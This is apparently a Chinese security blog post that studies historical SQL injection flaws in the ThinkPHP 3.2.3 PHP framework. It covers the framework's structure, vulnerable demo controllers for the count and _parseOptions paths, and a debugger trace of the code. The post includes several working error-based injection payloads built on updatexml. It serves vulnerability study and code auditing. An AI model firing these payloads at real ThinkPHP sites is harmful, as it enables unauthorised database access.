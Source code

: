# ThinkPHP3.2.3漏洞学习


# 环境搭建
`ThinkPHP3`

`composer create-project topthink/thinkphp=版本号 文件名`

`ThinkPHP5`(完整版)

`composer create-project topthink/think=版本号 文件名`

阿里云 Compose 全量镜像资源库

`composer config -g repo.packagist composer https://mirrors.aliyun.com/composer/`

https://www.runoob.com/w3cnote/composer-install-and-usage.html

https://packagist.org/
# 框架了解
审计之前，我们需要了解框架的信息

[ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1678)

`composer create-project topthink/thinkphp=3.2.3 thinkphp3.2.3`
```
index.php      入口文件
Application    应用目录
Public         资源文件目录
ThinkPHP       框架目录
```
其中框架目录`ThinkPHP`的结构如下
```
Common         核心公共函数目录
Conf           核心配置目录
Lang           核心语言包目录
Library        核心类库目录
    Think      核心Think类库目录
    Behavior   行为类库目录
    Org        Org类库目录
    Vendor     第三方类库目录
	...        更多类库目录
Mode           框架应用模式目录
Tpl            系统模板目录
ThinkPHP.php   框架入口文件
```
其中`Application`目录如下
```
Common         应用公共模块
    Common     应用公共函数目录
    Conf       应用公共配置文件目录
Home           默认生成的Home模块
    Conf       模块配置文件目录
    Common     模块函数公共目录
    Controller 模块控制器目录
    Model      模块模型目录
    View       模块视图文件目录
Runtime        运行时目录
    Cache      模板缓存目录
    Data       数据目录
    Logs       日志目录
    Temp       缓存目录
```
## 路由信息
thinkphp3使用 URL 模式切换：普通 GET 模式、pathinfo、rewrite 和兼容模式
`/ThinkPHP/Conf/convention.php`
```php
return array(
	&#34;URL_MODEL&#34; =&gt; 1
	//URL模式:0(普通模式) 1(PATHINFO 模式) 2(REWRITE模式) 3(兼容模式)
	//静态路由
	&#34;URL_ROUTE_ON&#34; =&gt; fasle,
	&#34;URL_ROUTE_RULES&#34; =&gt; array()
)
```
# 历史漏洞
## SQL 注入
### 0x01 聚合查询功能count方法未过滤调用parseKey
#### 利用条件
`ThinkPHP[5.0.0,5.0.23]，ThinkPHP 3 全版本`
### 漏洞分析和原理
`ThinkPHP3.2.3`
漏洞 demo
```java
public function SqlDemo(){
	$field = I(&#39;get.field&#39;);
	$num = M(&#39;user&#39;)-&gt;count($field);
	//M(&#39;user&#39;) 相当于 new Think\Model(&#39;user&#39;)
	var_dump($num);
}
```
poc
`?field=id),updatexml(1,concat(1,user(),1),1)from&#43;user%23`

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131922219.png)

在这里打个断点，跟进

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131922041.png)

会进入到`ThinkPHP/Library/Think/Model.class.php`中的`__call`方法中，
因为是`count`，所以进入到`$this-&gt;getField()`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131928555.png)

经过对传入字段进行解析等一系列操作之后，

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131931608.png)

进入到`$this-&gt;db-&gt;select()`方法中
此时传入的`$options`变成了

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131932383.png)

继续跟进，这里进入到了`$this-&gt;buildSelectSql()`方法，来构建 select 语句

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131934433.png)

进入到`$this-&gt;parseSql()`方法中

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131934837.png)

利用`$this-&gt;parseField()`方法进行解析，继续跟进

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131938968.png)

这里的`$this-&gt;parseKey()`对传入的 payload 并没有进行过滤

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131939109.png)

然后便回到`$this-&gt;parseField()`方法中，返回构建的 field 语句

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131941304.png)

 最终回到`$this-&gt;parseSql()`方法中，返回最终需要执行的 sql 语句
 
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131942656.png)

最后得到了执行

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131943511.png)


### 0x02 ThinkPHP/Library/Think/Model.class.php::\_parseOptions未过滤$options导致 sql 注入
#### 利用条件
ThinkPHP &lt;= 3.2.3
#### 漏洞原理和分析
`$options`查询条件可以不经过数据处理直接进入`_parseOptions`，再进入`Driver.class.php`的sql操作函数，和上面一样通过`buildSelectsql`方法或直接调用`delete`方法进行拼接 sql 语句，然后再进行执行
漏洞 Demo
```java
public function SqlDemo()
{
    $id = I(&#39;id&#39;);
    $res = M(&#39;user&#39;)-&gt;select($id);
    $res = M(&#39;user&#39;)-&gt;find($id);
}
```
poc

`id[comment]=\*/where 1 and updatexml(1,concat(0x7e,user(),0x7e),1)/\*`

`id[limit]=1,1&#43;procdure&#43;analyse(updatexml(1,concat(0x7e,user(),0x7e),1),1)--`

`id[field]=* from user where 1 and updatexml(1,concat(0x7e,user(),0x7e),1) --&#43;`

具体构造出多少个`poc`，可以看`pasexxx`有多少个



---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/thinkphp3.2.3%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/  

